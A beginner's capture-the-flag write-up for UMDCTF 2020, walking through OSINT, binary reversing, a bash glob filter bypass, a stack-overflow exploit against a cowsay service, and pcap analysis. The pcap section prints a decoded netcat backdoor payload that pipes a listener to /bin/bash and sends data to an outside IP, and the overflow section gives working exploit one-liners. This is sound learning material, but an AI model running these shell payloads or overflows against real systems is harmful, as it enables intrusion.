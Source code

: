 # UMDCTF

This is a quick repo I'm throwing together to attempt to capture some of my thoughts during the UMBCTF on 18APR2020.  I am a complete newbie when it comes to these things so don't expect to get a ton of wisdom from me.

## MemeCTF
I wish I was better at OSINT :(

9012389aad4eb9be53d225c4bbe72098ebdb37b97a52893171ff1bce0d40f383

I googled this hash which took me to the (UMD-CSEC github profile)[https://github.com/UMD-CSEC].  The repository only shows a single markdown document but the description has the hash so I know I'm in the right place.  I then noticed that there are 3 commits.  The second commit shows that a flag was added.  Clicking on the commit, I see that this commit has a binary file *.lol.jpg*.  I click Browse Files and the filename, I am shows a jpg that has the flag on it:  UMBDCTF-{meme_ch4llenges_ftw}

## Santa Mysterious Box
You're given an ELF binary called SantaBox.  The first thing I did was run *file* on it:

SantaBox: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0400ccb74c0271f1ee7ddbd3c1f022466338d6f5, stripped

Who says you can't execute random binaries off of the internet?

```
↳ $ ./SantaBox
-----------------------------------------
|                                       |
|                                       |
|                                       |
|           Santa's Mysterious          |
|             Box of Treats             |
|                                       |
|                                       |
|                                       |
|                                       |
|                                       |
-----------------------------------------
Enter code here: Secrets
You received coal!
```

Ok, so it needs a code.  I wonder if the string is visible so I run strings and can't see the telltale signs if UMDCTF.  I then run it through *ltrace* to see what functions its calling and something interesting jumps out.

```
__isoc99_scanf(0x55b41b261c7a, 0x7ffcb056f310, 0, 0Enter code here: abcdefghijklmnop
)                                             = 1
strcmp("\\]^_`abcdefghijk", "PH?>OA(vN/io/Zb<q.Zt+pZKm.io0x")
```

I entered the code of **abcdefghijklmnop** and the strcmp shows **\\]^_`abcdefghijk**.  This is a sign the letters have all been shifted by the same amount.  Let me copy **PH?>OA(vN/io/Zb<q.Zt+pZKm.io0x** into python and perform a subtraction of 5 and see what we come up with.

```python
>>> code = 'PH?>OA(vN/io/Zb<q.Zt+pZKm.io0x'
>>> ''.join((chr(ord(x)+5) for x in code))
'UMDCTF-{S4nt4_gAv3_y0u_Pr3nt5}'
```

## Question
To read or not to read the flag... That is the question!

nc 192.241.138.174 9999

For this one, you connect via netcat and the terminal has already presented you with the *cat* command having already been entered.  However, it seems as most other character are not allowed.  I gave it a couple of attempts and got lucky when I remembered reading about globing inside of bash during another CTF.

```
↳ $ nc 192.241.138.174 9999
The flag.txt is here. Try to read it!
> cat flag.txt
Nope!
> cat *
Nope!
> cat ????.???
UMDCTF-{s0me_questions_h4ve_answ3rs}
```

## Cowspeak as a Service
lumpus gave up installing cowspeak so he made it a remote service instead! Too bad it keeps overwriting old messages... Can you become chief cow and read the first message?

nc 192.241.138.174 9998

This one I struggled with for a bit.  Probably my first real struggle of the CTF.  Luckily the *main.c* file is provided and in it I noticed that use of *strcpy.

```
void moo(char *msg)
{
        char speak[64];
        int chief_cow = 1;

        strcpy(speak, msg);
        printf("Value of chief_cow: %d\n", chief_cow);
        speak[strcspn(speak, "\r\n")] = 0;
        setenv("MSG", speak, chief_cow);

        system("./cowsay $MSG");

}
```

I compiled the binary and played around with overflowing *speak* but couldn't seem to affect its call to cowsay.  I took a second to think about what it was that I was trying to accomplish.  I then honed in on the use of *setenv*. The man page for this function indicates:

```
int setenv(const char *name, const char *value, int overwrite);
...
if overwrite is zero, then the value of name is not changed
```

So, that's what I need to do.  I need to overflow and change the value of chief_cow to zero.  However, its not in the correct place on the stack where an overflow of speak can affect it.  That's when I realize that I didn't compile with **-fno-stack-protector** which is a must for most of these easier overflow problems.  I recompile and notice I can now adjust the value of chief_cow if I overflow.  I modify the *main.c* code to print out the value of *chief_cow* so that I can see its value as I attempt to exploit it.  I then put together a pretty crappy for loop to loop through and inspect the results.

```
for i in {64..80}; do echo $i; python -c "print('a'*"$i" + '\x00'*4)" | ./cow; done
```

Looking over the results I can see that 76 characters overflowed and updated the value of *chief_cow*.

```
76
Welcome to Cowsay as a Service (CaaS)!

Enter your message:

Value of chief_cow: 0
 _________________________________________
/ aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa \
\ aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa   /
 -----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

I attempt this against the server:

```
↳ $ python -c "print('a'*76 + '\x00'*4)" | nc 192.241.138.174 9998
Welcome to Cowsay as a Service (CaaS)!

Enter your message:

 ________________________
< UMDCTF-{P5Th_Ov3rF10w} >
 ------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

## A Nation State Musical
Oh no! It looks like a nation state is trying to attack one of UMDs routers! Using a pcap generated from the attack, try to determine which nation state the attack is coming from.

Beware, you only have five guesses.

The flag will be in the format UMDCTF-{Country}

Note: do not attempt to communicate with or contact any of the IP addresses mentioned in the challenge. The challenge can and should be solved statically.

Attached was a pcap of roughly 5001 packets.  I opened it in *Wireshark* and noticed that the all of the packets seem to be nearly identical and all originate from the same place.  Looking up the address at (MXToolbox)[https://mxtoolbox.com/arin.aspx] said the IP came from the Ukraine however, that answer was not accepted.  Of course it couldn't be that easy.  I went packet to the packets and the only thing that seems to be changing among them is the TCP source port and the checksum.  I tried to discern a pattern but couldn't as it seemed the port numbers were all incremented by one and the checksums were decremented.  To be completely transparent, I mostly floundered in analyzing this and opened the pcap inside of *scapy* to analyze it.

```
>>> packets = rdpcap('attack.pcap')
>>> packets
<attack.pcap: TCP:5001 UDP:0 ICMP:0 Other:0>
```

Through dumb luck somewhere between *Wireshark* and *scapy*, I found a single packet that was larger than the rest so I extracted it and analyzed a bit.

```
>>> interesting = [pckt for pckt in packets if len(pckt) > 54]
interesting[0][Raw].load
b"\xff\xfe'\x00;\x00\n\x00r\x00m\x00 \x00-\x00f\x00 \x00b\x00a\x00c\x00k\x00d\x000\x000\x00r\x00\n\x00m\x00k\x00f\x00i\x00f\x00o\x00 \x00b\x00a\x00c\x00k\x00d\x000\x000\x00r\x00\n\x00n\x00c\x00 \x00-\x00l\x00k\x00 \x001\x003\x003\x007\x00 \x000\x00<\x00b\x00a\x00c\x00k\x00d\x000\x000\x00r\x00 \x00|\x00 \x00/\x00b\x00i\x00n\x00/\x00b\x00a\x00s\x00h\x00 \x001\x00>\x00b\x00a\x00c\x00k\x00d\x000\x000\x00\n\x00e\x00c\x00h\x00o\x00 \x00'\x00<\x045\x04=\x04 \x00:\x04V\x04@\x045\x04<\x04V\x04=\x04'\x00 \x00|\x00 \x00n\x00c\x00 \x003\x007\x00.\x004\x006\x00.\x009\x006\x00.\x000\x00 \x001\x003\x003\x007\x00"
```

I floundered for a bit bit but eventually was able to convert it:

```
>>> ''.join([chr(byte) for byte in interesting[0][Raw].load if byte >= 32 and byte <= 126])
"';rm -f backd00rmkfifo backd00rnc -lk 1337 0<backd00r | /bin/bash 1>backd00echo '<5= :V@5<V=' | nc 37.46.96.0 1337"
```

Now I have a different IP address to search: **37.46.96.0**.  This was an address block in **Kazakhstan** which turned out to be the answer.

After the fact, I also found that inside of *Wireshark*, you can do a Protocol Hierarchy Statistic and find that only one packet had actual data.  By right clicking the entry, you can apply data as a filter and analyze the packet from there.


